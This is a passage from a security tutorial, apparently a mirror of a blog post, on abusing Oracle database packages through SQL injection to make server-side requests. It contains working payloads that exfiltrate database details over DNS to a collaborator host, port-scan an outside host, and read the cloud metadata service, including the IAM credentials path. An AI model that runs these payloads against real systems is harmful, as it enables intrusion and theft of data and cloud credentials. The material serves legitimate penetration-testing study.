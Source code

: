 # Oracle injection





**Serve this post a wayback machine copy of the deleted post from [https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/](https://ibreak.software/2020/06/using-sql-injection-to-perform-ssrf-xspa-attacks/)**.

## SSRF

Using Oracle to do Out of Band HTTP and DNS requests is well documented but as a means of exfiltrating SQL data in injections. We can always modify these techniques/functions to do other SSRF/XSPA.

Installing Oracle can be really painful, especially if you want to set up a quick instance to try out commands. My friend and colleague at [Appsecco](https://appsecco.com), [Abhisek Datta](https://github.com/abhisek), pointed me to [https://github.com/MaksymBilenko/docker-oracle-12c](https://github.com/MaksymBilenko/docker-oracle-12c) that allowed me to setup an instance on a t2.large AWS Ubuntu machine and Docker.

I ran the docker command with the `--network="host"` flag so that I could mimic Oracle as an native install with full network access, for the course of this blogpost.

```
docker run -d --network="host" quay.io/maksymbilenko/oracle-12c 
```

#### Oracle packages that support a URL or a Hostname/Port Number specification <a href="#oracle-packages-that-support-a-url-or-a-hostname-port-number-specification" id="oracle-packages-that-support-a-url-or-a-hostname-port-number-specification"></a>

In order to find any packages and functions that support a host and port specification, I ran a Google search on the [Oracle Database Online Documentation](https://docs.oracle.com/database/121/index.html). Specifically,

```
site:docs.oracle.com inurl:"/database/121/ARPLS" "host"|"hostname" "port"|"portnum"
```

The search returned the following results (not all can be used to perform outbound network)

* DBMS\_NETWORK\_ACL\_ADMIN
* UTL\_SMTP
* DBMS\_XDB
* DBMS\_SCHEDULER
* DBMS\_XDB\_CONFIG
* DBMS\_AQ
* UTL\_MAIL
* DBMS\_AQELM
* DBMS\_NETWORK\_ACL\_UTILITY
* DBMS\_MGD\_ID\_UTL
* UTL\_TCP
* DBMS\_MGWADM
* DBMS\_STREAMS\_ADM
* UTL\_HTTP

This crude search obviously skips packages like `DBMS_LDAP` (which allows passing a hostname and port number) as [the documentation page](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360) simply points you to a [different location](https://docs.oracle.com/database/121/ARPLS/d\_ldap.htm#ARPLS360). Hence, there may be other Oracle packages that can be abused to make outbound requests that I may have missed.

In any case, let’s take a look at some of the packages that we have discovered and listed above.

**DBMS\_LDAP.INIT**

The `DBMS_LDAP` package allows for access of data from LDAP servers. The `init()` function initializes a session with an LDAP server and takes a hostname and port number as an argument.

This function has been documented before to show exfiltration of data over DNS, like below

```
SELECT DBMS_LDAP.INIT((SELECT version FROM v$instance)||'.'||(SELECT user FROM dual)||'.'||(select name from V$database)||'.'||'d4iqio0n80d5j4yg7mpu6oeif9l09p.burpcollaborator.net',80) FROM dual;
```

However, given that the function accepts a hostname and a port number as arguments, you can use this to work like a port scanner as well.

Here are a few examples

```
SELECT DBMS_LDAP.INIT('scanme.nmap.org',22) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',25) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',80) FROM dual;
SELECT DBMS_LDAP.INIT('scanme.nmap.org',8080) FROM dual;
```

A `ORA-31203: DBMS_LDAP: PL/SQL - Init Failed.` shows that the port is closed while a session value points to the port being open.

**UTL\_SMTP**

The `UTL_SMTP` package is designed for sending e-mails over SMTP. The example provided on the [Oracle documentation site shows how you can use this package to send an email](https://docs.oracle.com/database/121/ARPLS/u\_smtp.htm#ARPLS71478). For us, however, the interesting thing is with the ability to provide a host and port specification.

A crude example is shown below with the `UTL_SMTP.OPEN_CONNECTION` function, with a timeout of 2 seconds

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',80,2);
END;
```

```
DECLARE c utl_smtp.connection;
BEGIN
c := UTL_SMTP.OPEN_CONNECTION('scanme.nmap.org',8080,2);
END;
```

A `ORA-29276: transfer timeout` shows port is open but no SMTP connection was estabilished while a `ORA-29278: SMTP transient error: 421 Service not available` shows that the port is closed.

**UTL\_TCP**

The `UTL_TCP` package and its procedures and functions allow [TCP/IP based communication with services](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190). If programmed for a specific service, this package can easily become a way into the network or perform full Server Side Requests as all aspects of a TCP/IP connection can be controlled.

The example [on the Oracle documentation site shows how you can use this package to make a raw TCP connection to fetch a web page](https://docs.oracle.com/cd/B28359\_01/appdev.111/b28419/u\_tcp.htm#i1004190). We can simply it a little more and use it to make requests to the metadata instance for example or to an arbitrary TCP/IP service.

```
set serveroutput on size 30000;
SET SERVEROUTPUT ON 
DECLARE c utl_tcp.connection;
  retval pls_integer; 
BEGIN
  c := utl_tcp.open_connection('169.254.169.254',80,tx_timeout => 2);
  retval := utl_tcp.write_line(c, 'GET /latest/meta-data/ HTTP/1.0');
  retval := utl_tcp.write_line(c);
  BEGIN
    LOOP
      dbms_output.put_line(utl_tcp.get_line(c, TRUE));
    END LOOP;
  EXCEPTION
    WHEN utl_tcp.end_of_input THEN
      NULL;
  END;
  utl_tcp.close_connection(c);
END;
/
```

```
DECLARE c utl_tcp.connection;
  retval pls_integer; 
BEGIN
  c := utl_tcp.open_connection('scanme.nmap.org',22,tx_timeout => 4);
  retval := utl_tcp.write_line(c);
  BEGIN
    LOOP
      dbms_output.put_line(utl_tcp.get_line(c, TRUE));
    END LOOP;
  EXCEPTION
    WHEN utl_tcp.end_of_input THEN
      NULL;
  END;
  utl_tcp.close_connection(c);
END;
```

Interestingly, due to the ability to craft raw TCP requests, this package can also be used to query the Instance meta-data service of all cloud providers as the method type and additional headers can all be passed within the TCP request.

**UTL\_HTTP and Web Requests**

Perhaps the most common and widely documented technique in every Out of Band Oracle SQL Injection tutorial out there is the [`UTL_HTTP` package](https://docs.oracle.com/database/121/ARPLS/u\_http.htm#ARPLS070). This package is defined by the documentation as - `The UTL_HTTP package makes Hypertext Transfer Protocol (HTTP) callouts from SQL and PL/SQL. You can use it to access data on the Internet over HTTP.`

```
select UTL_HTTP.request('http://169.254.169.254/latest/meta-data/iam/security-credentials/adminrole') from dual;
```

You could additionally, use this to perform some rudimentary port scanning as well with queries like

```
select UTL_HTTP.request('http://scanme.nmap.org:22') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:8080') from dual;
select UTL_HTTP.request('http://scanme.nmap.org:25') from dual;
```

A `ORA-12541: TNS:no listener` or a `TNS:operation timed out` is a sign that the TCP port is closed, whereas a `ORA-29263: HTTP protocol error` or data is a sign that the port is open.

Another package I have used in the past with varied success is the [`GETCLOB()` method of the `HTTPURITYPE` Oracle abstract type](https://docs.oracle.com/database/121/ARPLS/t\_dburi.htm#ARPLS71705) that allows you to interact with a URL and provides support for the HTTP protocol. The `GETCLOB()` method is used to fetch the GET response from a URL as a [CLOB data type.](https://docs.oracle.com/javadb/10.10.1.2/ref/rrefclob.html)[select HTTPURITYPE('http://169.254.169.254/latest/meta-data/instance-id').getclob() from dual;




